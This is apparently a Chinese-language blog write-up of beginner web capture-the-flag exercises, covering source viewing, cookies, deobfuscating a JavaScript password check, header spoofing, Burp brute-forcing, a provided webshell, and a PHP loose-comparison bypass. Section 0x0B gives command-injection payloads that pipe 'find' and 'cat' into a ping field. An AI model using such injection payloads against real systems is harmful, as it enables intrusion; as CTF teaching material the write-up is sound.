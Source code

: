 # WEB Exercise Area

## 0x00 前言

把一直想填的WEB WP坑填了一下
发现有些题又不会做了。。。。

收货：

- hackbar的基本使用方法
- burp Intruder的爆破方法
- 菜刀的使用

Todo:

- js逻辑的分析
- php隐式类型转换的其他“漏洞”

## 0x01 view_source

chrome 浏览器直接加 view-source:头

## 0x02 get_post

用hackbar或者burp方便的修改get和post值

![](/assets/images/0x02.jpg)

## 0x03 robots

访问robots.txt 什么不让爬虫访问我们访问什么。。。。。

## 0x04 backup

考察一般备份文件的后缀名是 .bak

## 0x05 Cookie

考Cookie就看Cookie

console里

```javascript
alert(document.cookie)
```

提示访问cookie.php

提示看http response

在Chrome DevTool Network里查看请求头

得到flag

## 0x06 disabled_button

把button的disable属性去了

## 0x07 simple_js

Simple吗？我好菜啊。。。。。

F12看到源代码里有如下脚本

```js
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
                var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;
                        k = j + (l) + (n=0);
                        n = tab2.length;
                        for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                if(i == 5)break;}
                        for(i = (o=0); i < (k = j = n); i++ ){
                        o = tab[i-l];
                                if(i > 5 && i < k-1)
                                        p += String.fromCharCode((o = tab2[i]));
                        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

    h = window.prompt('Enter password');
    alert( dechiffre(h) );
```

一开始直接打

```js
console.log(dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"))
```

发现出来的就是错误提示信息

后来想想也是

参数pass_enc根本没用啊

p+的都是tab\[2\]的值，而tab\[2\]里的都是x35的值。。。。

所以改写了一下脚本

```js
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab2  = pass_enc.split(',');//交换tab1 tab2
                var tab = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;
                        k = j + (l) + (n=0);
                        n = tab2.length;
                        for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                if(i == 5)break;}
                        for(i = (o=0); i < (k = j = n); i++ ){
                        o = tab[i-l];
                                if(i > 5 && i < k-1)
                                        p += String.fromCharCode((o = tab2[i]));
                        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
alert(dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"))
```

得到flag:786OsErtk1

但是还是不对。。。。(Todo占坑)

看了大佬的wp发现少了最后一位。。。。。

事实上，通过分析函数逻辑可以将其转换为如下的js代码

```js
function dechiffre() {
    var pass = "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30";
    var tab2 = pass.split(',');
    var i;
    var p = "";
    for (i = 0; i < tab2.length; i++) {
        p += String.fromCharCode(tab2[i]);
    }
    return p;
}
alert(dechiffre());
```

flag:786OsErtk12

## 0x08 xff_referer

Hackbar真是个好东西

在Hackbar里加两个Header

Referer: [https://www.google.com](https://www.google.com/)

X-Forwarded-For：123.123.123.123

## 0x09 weak_auth

提示弱密码

用burp_suite 字典爆破

![](/assets/images/weakauth.jpg)

## 0x0A webshell

直接有webshell也给webshell密码了 菜刀连一下

然后直接下载flag.txt

## 0x0B command_execution

直接显示命令调用情况了 用管道符 “|”连接两个命令

先找一下flag位置

```
payload=1.1.1.1 | find / -name flag*
```

然后再cat

```
payload=1.1.1.1 | cat /home/flag.txt
```

## 0x0C simple_php

php弱类型比较绕过 字符串和数字比较时会把字符串能转数字的部分转成数字

```
payload=http://111.198.29.45:47621/?a=[]&b=1235aaaaa
```